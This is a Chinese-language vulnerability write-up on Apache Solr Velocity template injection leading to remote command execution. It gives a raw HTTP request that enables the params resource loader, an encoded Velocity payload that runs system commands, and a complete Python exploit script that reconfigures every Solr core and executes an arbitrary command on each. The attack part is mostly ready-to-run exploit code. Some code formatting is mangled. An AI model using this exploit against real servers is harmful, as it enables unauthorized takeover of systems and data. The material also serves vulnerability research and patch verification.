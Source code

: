 # Apache Solr Velocity模版注入远程命令执行

> 原文：[https://www.zhihuifly.com/t/topic/2823](https://www.zhihuifly.com/t/topic/2823)

# Apache Solr Velocity模版注入远程命令执行

## 一、漏洞简介

该漏洞的产生是由于两方面的原因：

1、当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。
2、2Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。
当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。

## 二、漏洞影响

经过测试，目前影响Apache Solr 8.1.1到8.2.0版本。

推测影响全版本Apache Solr。

## 三、复现过程

### 手动检测

手动检测访问http://www.0-sec.org/8983/solr/#/进入主界面，单击左侧的Core Selector查看集合名称

![image](img/c8739256fe00e7d893aa92e9efc49b77.png)

#### 1、post发送请求

```
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259 `{

“update-queryresponsewriter”: {

“startup”: “lazy”,

“name”: “velocity”,

“class”: “solr.VelocityResponseWriter”,

“template.base.dir”: “”,

“solr.resource.loader.enabled”: “true”,

“params.resource.loader.enabled”: “true”

}

}` 
```

#### 2、执行系统命令

```
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983 
```

### 使用脚本检测

```
auth: @l3_W0ng
version: 1.0
function: Apache Solr RCE via Velocity template
usage: python3 script.py ip [port [command]]
               default port=8983
               default command=whoami
note:
Step1: Init Apache Solr Configuration
Step2: Remote Exec in Every Solr Node
"""

import sys

import json

import time

import requests

class initSolr(object):

```
timestamp_s = str(time.time()).split('.')
timestamp = timestamp_s[0] + timestamp_s[1][0:-3]

def __init__(self, ip, port):
    self.ip = ip
    self.port = port

def get_nodes(self):
    payload = {
        '_': self.timestamp,
        'indexInfo': 'false',
        'wt': 'json'
    }
    url = 'http://' + self.ip + ':' + self.port + '/solr/admin/cores'

    try:
        nodes_info = requests.get(url, params=payload, timeout=5)
        node = list(nodes_info.json()['status'].keys())
        state = 1
    except:
        node = ''
        state = 0

    if node:
        return {
            'node': node,
            'state': state,
            'msg': 'Get Nodes Successfully'
        }
    else:
        return {
            'node': None,
            'state': state,
            'msg': 'Get Nodes Failed'
        }

def get_system(self):
    payload = {
        '_': self.timestamp,
        'wt': 'json'
    }
    url = 'http://' + self.ip + ':' + self.port + '/solr/admin/info/system'
    try:
        system_info = requests.get(url=url, params=payload, timeout=5)
        os_name = system_info.json()['system']['name']
        os_uname = system_info.json()['system']['uname']
        os_version = system_info.json()['system']['version']
        state = 1

    except:
        os_name = ''
        os_uname = ''
        os_version = ''
        state = 0

    return {
        'system': {
            'name': os_name,
            'uname': os_uname,
            'version': os_version,
            'state': state
        }
    } 
```

class apacheSolrRCE(object):

```
def __init__(self, ip, port, node, command):
    self.ip = ip
    self.port = port
    self.node = node
    self.command = command
    self.url = "http://" + self.ip + ':' + self.port + '/solr/' + self.node

def init_node_config(self):
    url = self.url + '/config'
    payload = {
        'update-queryresponsewriter': {
            'startup': 'lazy',
            'name': 'velocity',
            'class': 'solr.VelocityResponseWriter',
            'template.base.dir': '',
            'solr.resource.loader.enabled': 'true',
            'params.resource.loader.enabled': 'true'
        }
    }
    try:
        res = requests.post(url=url, data=json.dumps(payload), timeout=5)
        if res.status_code == 200:
            return {
                'init': 'Init node config successfully',
                'state': 1
            }
        else:
            return {
                'init': 'Init node config failed',
                'state': 0
            }
    except:
        return {
            'init': 'Init node config failed',
            'state': 0
        }

def rce(self):
    url = self.url + ("/select?q=1&amp;&amp;wt=velocity&amp;v.template=custom&amp;v.template.custom="
                      "%23set($x=%27%27)+"
                      "%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+"
                      "%23set($chr=$x.class.forName(%27java.lang.Character%27))+"
                      "%23set($str=$x.class.forName(%27java.lang.String%27))+"
                      "%23set($ex=$rt.getRuntime().exec(%27" + self.command +
                      "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+"
                      "%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end")
    try:
        res = requests.get(url=url, timeout=5)
        if res.status_code == 200:
            try:
                if res.json()['responseHeader']['status'] == '0':
                    return 'RCE failed @Apache Solr node %s\n' % self.node
                else:
                    return 'RCE failed @Apache Solr node %s\n' % self.node
            except:
                return 'RCE Successfully @Apache Solr node %s\n %s\n' % (self.node, res.text.strip().strip('0'))

        else:
            return 'RCE failed @Apache Solr node %s\n' % self.node
    except:
        return 'RCE failed @Apache Solr node %s\n' % self.node 
```

def check(ip, port=‘8983’, command=‘whoami’):

system = initSolr(ip=ip, port=port)

if system.get_nodes()[‘state’] == 0:

print(‘No Nodes Found. Remote Exec Failed!’)

else:

nodes = system.get_nodes()[‘node’]

systeminfo = system.get_system()

os_name = systeminfo[‘system’][‘name’]

os_version = systeminfo[‘system’][‘version’]

print('OS Realese: %s, OS Version: %s\nif remote exec failed, ’

‘you should change your command with right os platform\n’ % (os_name, os_version))

```
 for node in nodes:
        res = apacheSolrRCE(ip=ip, port=port, node=node, command=command)
        init_node_config = res.init_node_config()
        if init_node_config['state'] == 1:
            print('Init node %s Successfully, exec command=%s' % (node, command))
            result = res.rce()
            print(result)
        else:
            print('Init node %s Failed, Remote Exec Failed\n' % node) 
```

if **name** == ‘**main**’:

usage = ('python3 script.py ip [port [command]]\n ’

'\t\tdefault port=8983\n ’

‘\t\tdefault command=whoami’)

```
if len(sys.argv) == 4:
    ip = sys.argv[1]
    port = sys.argv[2]
    command = sys.argv[3]
    check(ip=ip, port=port, command=command)
elif len(sys.argv) == 3:
    ip = sys.argv[1]
    port = sys.argv[2]
    check(ip=ip, port=port)
elif len(sys.argv) == 2:
    ip = sys.argv[1]
    check(ip=ip)
else:
    print('Usage: %s:\n' % usage) 
``` 
```